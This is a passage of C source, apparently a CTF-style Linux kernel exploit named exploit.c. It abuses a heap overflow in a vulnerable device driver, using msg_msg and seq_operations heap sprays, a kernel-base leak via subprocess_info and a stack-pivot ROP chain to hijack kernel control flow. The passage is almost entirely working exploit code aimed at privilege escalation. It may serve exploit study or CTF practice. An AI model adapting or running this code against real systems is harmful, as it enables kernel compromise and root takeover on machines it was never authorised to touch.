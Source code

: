 ```exploit.c
  *a++ = user_ss;

  *a++ = 0xdeadbeef; // unreachable
}

int main(int argc, char *argv[]) {
  char buf[0x1000];
  shfd = open(DEV_PATH, O_RDWR);
  assert(shfd >= 0);

  int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if(qid == -1) errExit("msgget");
  struct _msgbuf80 msgbuf = { .mtype = 1 };
  KMALLOC(qid, msgbuf, 0xF);

  _alloc(0x80);
  memset(buf, 'X', 0x80);
  _write(buf, 0x80); // vuln

  _free();
  KMALLOC(qid, msgbuf, 0x1);
  memset(buf, 0, 0x8);
  //*((ulong*)buf) = (ulong)maddr;
  _alloc(0x80);
  _write(buf, 0x80);
  assert(socket(22, AF_INET, 0) < 0); // overlap subprocess_info
  _read(buf, 0x80);
  const ulong call_usermodehelper_exec_work = ((ulong*)buf)[0x18/sizeof(ulong)];
  printf("[!] call_usermodehelper_exec_work: 0x%lx\n", call_usermodehelper_exec_work);
  const ulong kernbase = call_usermodehelper_exec_work - (0xffffffff81060160 - 0xffffffff81000000);
  printf("[!] kernbase: 0x%lx\n", kernbase);
  _free();

  for(int ix=0; ix!=0x82; ++ix){
    statfd = open("/proc/self/stat", O_RDONLY);
    assert(statfd > 0);
  }
  _alloc(0x20);
  memset(buf, 'x', 0x20);
  _write(buf, 0x20);  // vuln
  _free();
  statfd = open("/proc/self/stat", O_RDONLY); // dummy
  _alloc(0x20);
  statfd = open("/proc/self/stat", O_RDONLY); // victim

  *((ulong*)buf) = kernbase + 0x05832b;
  _write(buf, 0x20);

  // prepare chain
  const ulong gadstack = 0x83C389C0;
  const char *maddr = mmap((void*)(gadstack & ~0xFFF), 4*PAGE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
  printf("[+] mmapped @ %p\n", maddr);
  const char *chain = maddr + (gadstack & 0xFFF);
  gen_chain(chain, kernbase);

  // NIRUGIRI
  read(statfd, buf, 1);

  return 0;
}
```
